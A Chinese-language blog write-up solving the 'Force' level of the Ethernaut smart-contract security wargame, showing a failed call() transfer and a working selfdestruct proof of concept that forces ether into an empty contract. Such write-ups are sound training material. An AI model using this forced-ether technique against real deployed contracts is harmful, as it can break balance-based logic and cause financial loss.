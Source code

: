 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-6'
date: 2022-12-10 13:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'
---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第七关Force  思路与POC

##### 目标: 想办法增加合约余额

#### 先看代码:

##### 好吧 没有代码 :six:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

#### 问题在于一个空合约该如何接收转账:question:

##### 先直接转账试一试

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceTranfer {

   receive() external payable {
       
   }
  //call函数转账失败 目标合约是空合约 没有payable标识的方法
    function transferTo(address payable dest ) public{
        
        dest.call{value : address(this).balance}("");
    }

```

##### 没有用 交易虽然成功但是转账金额被revert

![info](./assets/1670659062482.png)

#### 通过查阅文档发现如果将一个合约自毁的话是会将余额转账到备份合约上的 ,而且`selfdestruct`函数是直接操作字节码的.

#### :link:https://docs.soliditylang.org/en/v0.8.17/introduction-to-smart-contracts.html?highlight=self#deactivate-and-self-destruct

##### 试一试:

```solidity
 function selfDestroy(address payable addr ) public {
    
    selfdestruct(addr);
  }
```

##### 成功:+1:

![info2](./assets/1670659498827.png)

![info3](./assets/1670659599586.png)